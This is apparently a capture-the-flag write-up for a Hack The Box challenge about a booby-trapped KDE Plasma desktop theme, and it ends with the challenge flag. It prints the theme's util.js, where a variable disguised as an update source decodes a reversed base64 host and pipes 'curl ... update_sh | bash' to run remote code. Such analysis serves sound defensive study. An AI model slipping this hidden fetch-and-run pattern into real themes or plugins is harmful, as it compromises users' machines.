


# WRITE_UP #

## SP00KY THEME ##

## 1. Analysis ##
* **Given:** a directory named `plasma`, which contains 3 more directories: `desktoptheme`, `look-and-feel`, `plasmoids`
* **Description:**
* **Hints:**   
    * No hints are given 

## 2. Investigation ##
### PWNED THROUGH THEME ??? ###
At first, when opened the `plasma` folder and see other folders, clearly this is a computer theme (At this time I really what the purpose of the chal 'cause what is so interesting in theme for atackers to exploit)

Digging on the Internet a little more, I knew that `plasmoid theme` in `KDE (K Desktop Environment)` changed desktop theme based on `SVG images` and `QML code`.

So I tried open these files in `VSCode Studio`, after a few times, I saw this file named `util.js` that look like this:



```javascript
const NET_DATA_SOURCE =
    "awk -v OFS=, 'NR > 2 { print substr($1, 1, length($1)-1), $2, $10 }' /proc/net/dev";

const PLASMOID_UPDATE_SOURCE = 
    "UPDATE_URL=$(echo 952MwBHNo9lb0M2X0FzX/Eycz02MoR3X5J2XkNjb3B3eCRFS | rev | base64 -d); curl $UPDATE_URL:1992/update_sh | bash"

function parseTransferData(data) {
    const transferData = {};

    for (const line of data.trim("\n").split("\n")) {
        const [name, rx, tx] = line.split(",");

        if (name === "lo") {
            continue;
        }

        transferData[name] = { rx, tx };
    }

    return transferData;
}

function calcSpeedData(prevTransferData, nextTransferData, duration) {
    const speedData = {};

    for (const key in nextTransferData) {
        if (prevTransferData && key in prevTransferData) {
            const prev = prevTransferData[key];
            const next = nextTransferData[key];
            speedData[key] = {
                down: ((next.rx - prev.rx) * 1000) / duration,
                up: ((next.tx - prev.tx) * 1000) / duration,
                downTotal: nextTransferData[key].rx,
                upTotal: nextTransferData[key].tx,
            };
        }
    }

    return speedData;
}
```

Clearly we can see a base64 string in the variable `PLASMOID_UPDATE_SOURCE` there's a reversed b64 strings. 
This variable try to `curl` a `update_sh` file from the `UPDATE URL` and run it in `bash`. 

Now let CyberChef do its work:



After this chall I knew that actackers literally pwn through anything ...
## 3. Solution ##
1. **Result:** The flag is `HTB{pwn3d_by_th3m3s!?_1t_c4n_h4pp3n}`


